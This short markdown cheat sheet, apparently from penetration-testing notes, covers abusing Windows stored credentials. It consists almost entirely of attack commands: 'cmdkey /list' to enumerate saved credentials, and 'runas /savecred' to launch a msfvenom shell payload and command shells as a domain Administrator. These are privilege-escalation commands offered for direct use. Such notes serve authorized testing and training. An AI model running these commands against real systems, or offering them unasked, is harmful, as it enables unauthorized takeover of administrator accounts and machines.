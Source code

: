 # Runas Stored Credentials

## Checking for Stored Credentaisl
```
cmdkey /list
```

## Running AS with msfvenom
```
runas /savecred /user:DOM.LOCAL\Administrator "C:\Users\<user>\Documents\shell.exe"
```

## Runnng AS with local commands
```
runas /savecred /user:DOM.LOCAL\Administrator "c:\windows\system32\cmd.exe /k whoami"
runas /savecred /user:admin cmd.exe
```